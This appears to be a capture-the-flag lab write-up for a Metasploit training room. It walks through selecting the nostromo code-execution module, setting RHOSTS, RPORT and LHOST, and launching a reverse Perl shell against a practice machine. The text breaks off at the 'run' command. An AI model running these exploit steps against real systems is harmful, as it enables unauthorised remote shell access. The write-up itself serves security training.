 ## [Section 3 - Metasploit]: Final Walkthrough
It's time to put all the other metasploit tasks together and test them on an example machine. This machine is currently vulnerable to the metasploit module `exploit/multi/http/nostromo_code_execon` port 80, and this task will take you through the process of exploiting it and gaining a shell on the machine.

Answer:
- Select the module that needs to be exploited
> exploit/multi/http/nostromo_code_execon
- What variable do you need to set, to select the remote host

    ```bash
    msf6 exploit(multi/http/nostromo_code_exec) > options 

    Module options (exploit/multi/http/nostromo_code_exec):

    Name     Current Setting  Required  Description
    ----     ---------------  --------  -----------
    Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
    RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
    RPORT    80               yes       The target port (TCP)
    SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
    SRVPORT  8080             yes       The local port to listen on.
    SSL      false            no        Negotiate SSL/TLS for outgoing connections
    SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
    URIPATH                   no        The URI to use for this exploit (default is random)
    VHOST                     no        HTTP server virtual host


    Payload options (cmd/unix/reverse_perl):

    Name   Current Setting  Required  Description
    ----   ---------------  --------  -----------
    LHOST                   yes       The listen address (an interface may be specified)
    LPORT  4444             yes       The listen port


    Exploit target:

    Id  Name
    --  ----
    0   Automatic (Unix In-Memory)
    ```

    It's RHOSTS.

- How do you set the port to 80
> set RPORT 80
- How do you set listening address(Your machine)
> LHOST
- Exploit the machine!

    ```bash
    msf6 exploit(multi/http/nostromo_code_exec) > run
